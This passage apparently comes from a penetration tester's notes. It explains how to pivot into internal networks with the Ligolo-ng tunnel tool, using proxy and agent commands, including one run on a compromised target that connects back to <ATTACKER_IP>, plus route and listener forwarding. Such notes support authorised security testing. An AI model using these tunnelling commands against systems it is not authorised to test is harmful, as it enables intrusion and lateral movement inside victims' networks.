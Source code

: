 Sometimes, need to use binary compiled with older versions of Go if target does not support newer version: checkout GitHub page below.


## Ligolo-ng

It's a cool tunnel tool that functions like a VPN

Anyways, need to download a binary for proxy (attacker) and agent (pivot target). Find it on release page on GitHub (link at bottom). *Note:* May need to download older or more stable binaries since it's still in alpha release presently.

Requires admin rights on proxy but does not on agent.

Follow this workflow once you copied the agent binary to target:

```
/**** PROXY (ATTACKER) ****/
link@kali:~$ sudo ./proxy -selfcert

// then in ligolo console, show TLS certificate fingerprint and copy for later
>> certificate_fingerprint

// create network interface
>> interface_create --name "ligolo-tunnel-name"
```

```
/**** AGENT (TARGET) ****/
// (11601 is default ligolo port)
C:\> .\agent.exe -connect <ATTACKER_IP>:11601 -accept-fingerprint <TLS_CERTIFICATE_FINERPRINT>
```

```
/**** PROXY (ATTACKER) ****/
// in ligolo console, select session
>> session

// then create tunnel
>> tunnel_start --tun ligolo-tunnel-name

// add route where <ROUTE_IP_RANGE> e.g. 10.4.172.0/24
>> interface_add_route --name ligolo-tunnel-name --route <ROUTE_IP_RANGE>
```

Agent binding can also be achieved to allow internal targets to connect back to your ports. The following command lets the agent receive traffic on AGENT_LISTENER_PORT and forward it to attacker's LPORT:

```
/**** PROXY (ATTACKER) ****/
>> listener_add --addr 0.0.0.0:<AGENT_LISTENER_PORT> --to 127.0.0.1:<LPORT> --tcp
```

More commands and setup help available at https://github.com/nicocha30/ligolo-ng/wiki/Quickstart

Ligolo-ng repo: https://github.com/nicocha30/ligolo-ng

